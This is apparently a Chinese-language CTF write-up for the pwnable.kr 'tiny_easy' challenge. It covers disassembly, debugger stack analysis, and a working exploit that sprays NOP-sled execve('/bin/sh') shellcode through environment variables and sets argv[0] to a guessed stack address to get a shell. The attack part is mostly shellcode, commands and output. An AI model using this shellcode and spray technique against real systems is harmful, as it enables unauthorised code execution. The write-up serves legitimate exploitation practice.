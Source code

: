```yaml
---
title: pwnable.kr-tiny_easy
date: 2018-02-26 21:00:19
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
考验漏洞利用能力的题目，长姿势了。参考了别人的[writeup](https://blog.yiz96.com/pwnable-kr-tiny_easy/)
# 分析
没有源代码，就丢ida逆向了
```nasm
LOAD:08048054 ; Attributes: noreturn
LOAD:08048054
LOAD:08048054                 public start
LOAD:08048054 start           proc near
LOAD:08048054                 pop     eax
LOAD:08048055                 pop     edx
LOAD:08048056                 mov     edx, [edx]
LOAD:08048058                 call    edx
LOAD:08048058 start           endp ; sp-analysis failed
LOAD:08048058
LOAD:08048058 LOAD            ends
LOAD:08048058
LOAD:08048058
LOAD:08048058                 end start
```
这是什么程序？？就这一点代码就什么都没了？当时也很蒙蔽，不过漏洞还是很容易看出来的。`call`调用其实是可以通过栈内数据控制的，但是栈上的数据是什么呢？丢进`gdb`看看
```nasm
   0x8048050:	add    BYTE PTR [eax],dl
   0x8048052:	add    BYTE PTR [eax],al
=> 0x8048054:	pop    eax
   0x8048055:	pop    edx
   0x8048056:	mov    edx,DWORD PTR [edx]
   0x8048058:	call   edx
   0x804805a:	add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xffcf23c0 --> 0x1 
0004| 0xffcf23c4 --> 0xffcf32bb ("/root/桌面/test/tiny_easy")
0008| 0xffcf23c8 --> 0x0 
0012| 0xffcf23cc --> 0xffcf32db ("XDG_VTNR=7")
0016| 0xffcf23d0 --> 0xffcf32e6 ("XDG_SESSION_ID=c2")
0020| 0xffcf23d4 --> 0xffcf32f8 ("XDG_GREETER_DATA_DIR=/var/lib/lightdm-data/gyh")
0024| 0xffcf23d8 --> 0xffcf3327 ("CLUTTER_IM_MODULE=xim")
0028| 0xffcf23dc --> 0xffcf333d ("GPG_AGENT_INFO=/home/gyh/.gnupg/S.gpg-agent:0:1")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048054 in ?? ()
gdb-peda$ 

```
原来栈上的数据就是传入参数和环境变量的地址，接下来执行到`call edx`看看程序会转向哪儿。
```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x0 
ECX: 0x0 
EDX: 0x6d6f682f ('/hom')
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xffcf23c8 --> 0x0 
EIP: 0x8048058 (call   edx)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048051:	adc    BYTE PTR [eax],al
   0x8048053:	add    BYTE PTR [eax+0x5a],bl
   0x8048056:	mov    edx,DWORD PTR [edx]
=> 0x8048058:	call   edx
   0x804805a:	add    BYTE PTR [eax],al
   0x804805c:	add    BYTE PTR [eax],al
   0x804805e:	add    BYTE PTR [eax],al
   0x8048060:	add    BYTE PTR [eax],al

```
可以看到`edx`的值就是第一个传入参数的前4个字节，这里是`/hom`。如果控制了这4个字节，就控制了程序的流程。
但是程序空间中没有调用任何函数代码，所以要getshell只有写入`shellcode`并跳转执行才可，程序能控制写入的地方只有环境变量和传入参数了，于是可以将shellcode写到这里面。但是题目平台是开启`ASLR`的，不能确定环境变量和传入参数的地址。这里可以控制程序跳转到一个大致的地址去，然后在环境变量里安排`[NOP][shelcode]`类似的shellcode，其中`nop`指令相对于`shellcode`要非常多，这样当程序执行跳转时一旦跳到`nop`覆盖的区域就会被引导至`shellcode`。
这个大致的地址可以选取调试时见到的值如`0xffcf333d`，`shellcode`可以用pwntools的shellcraft模块生成，于是exp如下
```bash
# 导入环境变量
for i in `seq 1 500`; do export A_$i=$(python -c 'print "\x90"*4096+"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"');done;
```
```bash
exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
```
```bash
tiny_easy@ubuntu:~$ for i in `seq 1 500`; do export A_$i=$(python -c 'print "\x90"*4096+"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"');done;
tiny_easy@ubuntu:~$ exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
[1] 30389
tiny_easy@ubuntu:~$ fg
-bash: fg: job has terminated
[1]+  Segmentation fault      exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy
tiny_easy@ubuntu:~$ exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
[1] 5710
tiny_easy@ubuntu:~$ exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
[2] 11068
[1]   Segmentation fault      exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy
tiny_easy@ubuntu:~$ fg
exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy
$ ls
flag  tiny_easy
$ cat flag
What a tiny task :) good job!
$ 

```
另外，我所参考的writeup实际上还使用了`ulimit -s unlimited`关闭aslr的方法，但这个漏洞已经在题目平台修补了，可以参考`CVE-2016-3672`漏洞描述或者[这篇文章](http://www.freebuf.com/vuls/101169.html)
# 总结
该题漏洞的利用方法类似`heap spray`，只不过这是把`shellcode`布置在环境变量的节区上，该方法以前知道但是到了正真使用的时候却忘了，看来还是要多多练习呀。